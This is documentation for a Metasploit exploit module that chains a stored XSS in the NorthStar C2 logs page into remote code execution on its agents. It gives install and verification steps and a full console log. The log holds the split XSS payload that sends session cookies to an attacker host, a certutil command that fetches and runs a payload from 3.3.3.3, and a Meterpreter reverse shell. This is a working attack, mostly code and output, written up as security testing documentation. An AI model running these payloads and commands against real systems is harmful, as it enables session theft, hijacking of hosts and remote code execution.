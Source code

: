 ## Vulnerable Application

NorthStar C2, prior to commit `7674a44` on March 11 2024, contains a vulnerability where the logs page is
vulnerable to a stored XSS.
An unauthenticated user can simulate an agent registration to cause the XSS and take over a user's session.
With this access, it is then possible to run a new payload on all of the NorthStar C2 compromised hosts
(agents), and kill the original agent.

Successfully tested against NorthStar C2 commit `e7fdce148b6a81516e8aa5e5e037acd082611f73` running on
Ubuntu 22.04. The agent was running on Windows 10 19045.

```mermaid
flowchart TD
    A(fa:fa-computer Metasploit)
    B(fa:fa-server NorthStar C2)
    C(fa:fa-person Northstar C2 User)
    D(fa:fa-bug Agent)
    A -->|1. Upload XSS| B
    B -...-> C
    C -->|2. Visit XSS Page| B
    C -->|3. Send cookie| A
    A -->|4. Using Cookie, takeover agents| B
    D -->|5. Fetch and run payload, kill agent| A
    D -...-> B
    B -...-> D
```

### Install NorthStar C2

Instructions for Ubuntu 22.04. Official documentation and manual installation steps can be found [here](https://github.com/EnginDemirbilek/NorthStarC2/wiki/Installation).

```
sudo apt-get update
sudo apt-get install -y software-properties-common git wget mysql-server
sudo add-apt-repository ppa:ondrej/php
sudo apt-get update
sudo service mysql start
git clone https://github.com/EnginDemirbilek/NorthStarC2.git
cd NorthStarC2
git checkout e7fdce148b6a81516e8aa5e5e037acd082611f73
chmod +x install.sh
sudo ./install.sh # mysql answers: root:<empty>, make sure to give a website username/password
sudo apt-get purge -y php
sudo apt autoremove -y
sudo apt-get install -y php7.2 libapache2-mod-php7.2 php7.2-mysql
sudo a2dismod php*
sudo a2enmod php7.2
sudo service apache2 restart
```

### Agent Install

This should be done on a Windows computer:

On the c2 payload, you'll want to edit `Program.cs` on line 13 and edit `mainUri` to your northstar IP.
Now run the program, or compile and run it, and ensure the agent is active on the NorthStar C2 website.

## Verification Steps

1. Install the application, and connect an agent
1. Start msfconsole
1. Do: `use exploit/windows/http/northstar_c2_xss_to_agent_rce`
1. Do: `set rhosts [ip]`
1. Do: `set srvhost [srvhost]`
1. Do: `set fetch_srvport [fetch_srvport]`
1. Do: `set fetch_srvhost [fetch_srvhost]`
1. Do: `run`
1. Do: visit the NorthStarC2 site with a logged in user, and browse to the Server Logs page.
1. You should get a shell on each agent.

## Options

### KILL

If the NorthStarC2 agent should be explicitly killed on each compromised host. Defaults to `false`

## Scenarios

### NorthStar C2 commit e7fdce148b6a81516e8aa5e5e037acd082611f73 on Ubuntu 22.04 with an agent on Windows 10

```
resource (northstar.rq)> use exploit/windows/http/northstar_c2_xss_to_agent_rce
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
resource (northstar.rq)> set rhosts 4.4.4.4
rhosts => 4.4.4.4
resource (northstar.rq)> set srvhost 3.3.3.3
srvhost => 3.3.3.3
resource (northstar.rq)> set verbose true
verbose => true
resource (northstar.rq)> set FETCH_SRVPORT 9090
FETCH_SRVPORT => 9090
resource (northstar.rq)> set FETCH_srvhost 3.3.3.3
FETCH_srvhost => 3.3.3.3
msf exploit(windows/http/northstar_c2_xss_to_agent_rce) > exploit
[*] Command to run on remote host: certutil -urlcache -f http://3.3.3.3:9090/p3icRkNmQwbsIs7RYzV5sA %TEMP%\tKvCAnUBZgfn.exe & start /B %TEMP%\tKvCAnUBZgfn.exe
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(windows/http/northstar_c2_xss_to_agent_rce) >
[*] Fetch handler listening on 3.3.3.3:9090
[*] HTTP server started
[*] Adding resource /p3icRkNmQwbsIs7RYzV5sA
[*] Started reverse TCP handler on 3.3.3.3:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. NorthStar Login page detected
[*] Sending XSS
[*] Sending: N*/</script><q
[*] Sending: N*/i.src=u/*q
[*] Sending: N*/new Image;/*q
[*] Sending: N*/var i=/*q
[*] Sending: N*/s+h+p+'/'+c;/*q
[*] Sending: N*/var u=/*q
[*] Sending: N*/'http://';/*q
[*] Sending: N*/var s=/*q
[*] Sending: N*/':8080';/*q
[*] Sending: N*/var p=/*q
[*] Sending: N*/a+b;/*q
[*] Sending: N*/var h=/*q
[*] Sending: N*/'.10.147';/*q
[*] Sending: N*/var b=/*q
[*] Sending: N*/'192.168';/*q
[*] Sending: N*/var a=/*q
[*] Sending: N*/d.cookie;/*q
[*] Sending: N*/var c=/*q
[*] Sending: N*/document;/*q
[*] Sending: N*/var d=/*q
[*] Sending: N</td><script>/*q
[*] Waiting on XSS execution
[*] Using URL: http://3.3.3.3:8080/
[*] Server started.
```

Now visit the site with a logged in user, and browse to the Server Logs page.

```
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce - Received GET request.
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - Received cookie: st0sfhqto9mqtpd81rlg6hq5g5
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - Live Agents
===========
 ID                   IP              OS                      Username                Hostname         Status
 --                   --              --                      --------                --------         ------
 NC1S7X834eJVcJtynrq  222.222.22.222  Windows 10 Enterprise   DESKTOP-Q0HUOEI\h00die  DESKTOP-Q0HUOEI  Online
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - CSRF Token: 38b4d324e8cd233b7a94c62e7b3c5556
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce - (NC1S7X834eJVcJtynrq) Stealing DESKTOP-Q0HUOEI
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce -   (NC1S7X834eJVcJtynrq) Enabling shell mode
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce -     Command sent successfully to agent NC1S7X834eJVcJtynrq, response: Cmd mode enabled, all commands will be redirect to CMD. Response delay is : 2000 miliseconds
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce -   (NC1S7X834eJVcJtynrq) Running payload
[*] Client 222.222.22.222 requested /p3icRkNmQwbsIs7RYzV5sA
[*] Sending payload to 222.222.22.222 (Microsoft-CryptoAPI/10.0)
[*] Client 222.222.22.222 requested /p3icRkNmQwbsIs7RYzV5sA
[*] Sending payload to 222.222.22.222 (CertUtil URL Agent)
[*] Sending stage (201798 bytes) to 222.222.22.222
[*] Meterpreter session 1 opened (3.3.3.3:4444 -> 222.222.22.222:50116) at 2024-04-10 14:40:31 +0000
msf exploit(windows/http/northstar_c2_xss_to_agent_rce) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > sysinfo
Computer        : DESKTOP-Q0HUOEI
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/window
```
